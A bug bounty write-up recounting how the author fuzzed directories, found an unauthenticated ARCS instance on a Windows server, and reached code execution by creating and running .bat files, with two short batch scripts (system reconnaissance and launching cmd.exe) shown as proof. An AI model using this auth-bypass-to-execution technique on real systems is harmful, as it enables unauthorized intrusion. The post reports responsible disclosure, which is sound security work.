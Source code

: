 ```yaml
---
title: [$7,500] Remote Code Execution
date: 2021/3/19
description: View examples of all possible Markdown options.
tag: web-development
author: You
---
```


# How I scored a 7,500$ Bounty in just 7.5 Mins?

Tools Used - [ffuf](https://github.com/ffuf/ffuf), 🧠

**P.S. Due to Security Policy & Responsible Disclosure, The Company name is being redacted in this Blog Post.**

While fuzzing directories using ffuf, I found an unauthed Directory `/launcharcs/`; It was running an ARCS Instance on a Windows Server.

- The page greeted me with a Sign-In tab - But, A Settings button on the bottom left corner allows Frame Explorer (File Explorer) to be run by any un-auth user (Auth Bypass? :P).
![fram_exp](https://raw.githubusercontent.com/anishatlpu/portfolio/main/public/images/tets1.png)
This already allowed me to access files stored in the `D:/` Drive, Which were mostly System Logs/Information - Let's Escalate this to Code execution, Shall We?

As `Command Prompt` and `PowerShell` were disabled for obvious security reasons - There's no direct way to ping my Server . . . 

Although, We were allowed to Create, Delete and Rename files/folder in the Desktop `C:/`.


- So, I created a Text file in the Desktop `sysinfo.bat`.

```
@ECHO OFF 
:: This batch file reveals OS, hardware, and networking configuration.
TITLE My System Info
ECHO Please wait... Checking system information.
:: Section 1: OS information.
ECHO ============================
ECHO OS INFO
ECHO ============================
systeminfo | findstr /c:"OS Name"
systeminfo | findstr /c:"OS Version"
systeminfo | findstr /c:"System Type"
:: Section 2: Hardware information.
ECHO ============================
ECHO HARDWARE INFO
ECHO ============================
systeminfo | findstr /c:"Total Physical Memory"
wmic cpu get name
:: Section 3: Networking information.
ECHO ============================
ECHO NETWORK INFO
ECHO ============================
ipconfig | findstr IPv4
ipconfig | findstr IPv6
PAUSE
```
- Saved and ran the text file with `.bat` extension.

![sysinfo](https://raw.githubusercontent.com/anishatlpu/portfolio/main/public/images/sysinfo.PNG)


This was enough to show the P1 Severity Impact, Just to put some cherry on top - I wrote this another script to run cmd in the Local Machine.


```
@echo off
echo run Command Prompt.
pause
cls
%SystemRoot%\system32\cmd.exe
pause
```

The _Redacted Company_ acted quick on this and Rewarded me a sweet 7,500$ Bounty :).
![yay](https://c.tenor.com/5987hNPhX_EAAAAM/dance-cute.gif)

![bounty](https://raw.githubusercontent.com/anishatlpu/portfolio/main/public/images/Screenshot%202021-12-11%20084638.png)

Thank You _Redated Company_ for the Bounty! - And I really appreciate you for reading till the end 🥰.


Anish

